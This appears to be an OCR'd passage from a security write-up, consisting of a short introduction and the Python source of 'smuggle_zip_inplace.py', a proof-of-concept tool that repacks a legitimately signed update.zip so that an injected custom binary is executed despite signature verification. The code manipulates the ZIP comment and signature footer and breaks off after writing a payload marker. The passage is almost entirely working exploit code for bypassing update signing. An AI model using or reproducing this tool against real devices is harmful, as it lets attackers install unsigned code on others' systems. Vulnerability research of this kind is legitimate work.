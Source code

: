 Here is the ZIP-smuggling generator (`smuggle_zip_inplace.py`), which takes a legitimate signed ZIP archive as a base and inject into it the previously discussed minimal file set and a custom binary to be executed.

```
import argparse
import struct
import zipfile
import io
import os

if __name__ == '__main__':
	parser = argparse.ArgumentParser(description="poc update.zip repacker")
	parser.add_argument("file", type=argparse.FileType("r+b"), help="update.zip file to be modified")
	parser.add_argument("update_binary", type=argparse.FileType("rb"), help="update binary to be injected")
	parser.add_argument("-g", "--gap", default="-1", help="gap between EOCD and signature (-1: maximum)")
	parser.add_argument("-o", "--ofs", default="-1", help="payload offset in the gap")
	args = parser.parse_args()

	gap_size = int(args.gap, 0)
	payload_ofs = int(args.ofs, 0)

	args.file.seek(0, os.SEEK_END)
	original_size = args.file.tell()
	args.file.seek(-6, os.SEEK_END)
	signature_size, magic, comment_size = struct.unpack("<HHH", args.file.read(6))
	assert magic == 0xffff

	print(f"comment size   = {comment_size}")
	print(f"signature size = {signature_size}")

	
	args.file.seek(-signature_size, os.SEEK_END)
	signature_data = args.file.read(signature_size - 6)

	
	
	if gap_size == -1:
		gap_size = 0xffff - signature_size
	assert gap_size + signature_size <= 0xffff

	
	if payload_ofs == -1:
		payload_ofs = (comment_size - original_size) & 0xfff

	print(f"gap size       = {gap_size}")
	print(f"payload offset = {payload_ofs}")

	
	args.file.seek(-(comment_size + 2), os.SEEK_END)
	end_of_signed_data = args.file.tell()
	args.file.truncate(end_of_signed_data)

	
	args.file.write(struct.pack("<H", gap_size + signature_size))

	
	args.file.write(b"\x00"*(payload_ofs))

	
	args.file.write(b"=PAYLOAD-BEGIN=\x00")
```